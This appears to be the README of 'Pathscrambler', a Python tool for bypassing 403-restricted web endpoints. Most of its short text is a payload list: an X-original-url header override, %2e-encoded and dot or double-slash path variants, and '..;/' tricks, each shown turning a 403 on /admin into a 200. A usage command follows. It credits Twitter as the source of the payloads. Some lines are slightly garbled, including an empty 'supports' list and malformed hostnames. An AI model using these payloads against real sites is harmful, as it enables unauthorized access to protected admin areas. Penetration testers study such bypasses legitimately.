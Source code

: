 # Pathscrambler

Simple Tool written in python to bypass endpoint restriction currenty supports :

These payloads are directly pulled from twitter. Thanks to the community :)

--------------------------------------------------------------------------
GET /admin HTTP/1.1
Host: example.com     =>    403 Forbidden

GET /anything HTTP/1.1
Host: example.com
X-original-url: /admin =>   200 OK

--------------------------------------------------------------------------
https://www.example.com/path        =>  403 Forbidden

https://www.example.com/%2e/path    =>  200 OK

--------------------------------------------------------------------------

https://www.example.com/admin       => 403

https://www.example.com/.           => 200

https://www.example/admin//         => 200

https://www.example/./admin/./      => 200

---------------------------------------------------------------------------

https://www.example.com/admin/      => 302

https://www.example.com/admin..;/   => 200

---------------------------------------------------------------------------

Command Example :

python3 pathscramblerpy -u "https://www.example/admin" where /admin returns 403

